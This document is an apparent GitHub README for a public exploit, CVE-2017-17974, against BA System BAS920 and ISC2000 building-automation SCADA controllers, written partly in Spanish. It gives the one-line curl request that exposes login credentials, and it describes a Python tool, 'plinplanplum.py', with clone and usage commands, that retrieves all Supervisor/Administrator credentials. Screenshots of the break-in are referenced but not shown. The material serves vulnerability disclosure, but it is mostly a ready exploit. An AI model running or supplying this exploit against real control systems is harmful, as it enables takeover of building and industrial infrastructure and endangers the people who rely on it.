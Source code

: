 #  Exploit; SCADAS "BAS920 & ISC2000"; Credentials Exposed
## [BA System] “Improper Access Control (Authorization)”

	[*] Exploit Title:       "SCADAS "BAS920 & ISC2000"; Credentials Exposed” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"

![BAS920_2](screenshot/get_passwd.png)

### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:
![BAS920_3](screenshot/POC_1.png)

![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)

![BAS920_6](screenshot/INDOOR_2.png)


***

# TOOL: "Plin Plan Plun"  (ex - cafeina )

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help
	
	usr@pwn:~/$ python plinplanplum.py --help

	python plinplanplum.py --help
	usage: plinplanplum.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining all credentials for the Supervisor/Administrator account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python plinplanplum.py --host 192.168.1.101 -p 81

***

## Usage:

![BAS920_7](screenshot/tool_passwd.png)

#### Las update !!!
![BAS920_8](screenshot/poc_tool_1.png)

***

### Reference:
http://misteralfa-hack.blogspot.cl/2018/04/tool-plinplamplum-scadas-bas920-isc2000.html
http://misteralfa-hack.blogspot.cl/2017/12/ba-system-improper-access-control.html